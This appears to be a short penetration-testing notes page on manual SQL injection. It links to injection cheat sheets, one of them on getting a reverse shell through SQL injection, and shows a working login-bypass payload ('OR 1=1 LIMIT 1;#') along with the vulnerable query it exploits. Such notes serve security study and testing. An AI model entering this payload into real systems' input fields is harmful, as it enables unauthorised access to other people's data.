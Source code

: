 # Manual Injections

* [https://medium.com/hacker-toolbelt/sqlmap-cheat-sheet-e5a38300b50](https://medium.com/hacker-toolbelt/sqlmap-cheat-sheet-e5a38300b50)
* [http://resources.infosecinstitute.com/sql-truncation-attack/](http://resources.infosecinstitute.com/sql-truncation-attack/)
* [http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [http://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/](http://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
* [https://guide.offsecnewbie.com/5-sql](https://guide.offsecnewbie.com/5-sql)

## Show Only 1 Row at a Time

```bash
# Some databases will not show results if you are trying to get more than 
# 1 row at a time
select * from users where name = 'username' or 1=1 LIMIT 1;#

# this is what you would put into a textbox
username' OR 1=1 LIMIT 1;#
```

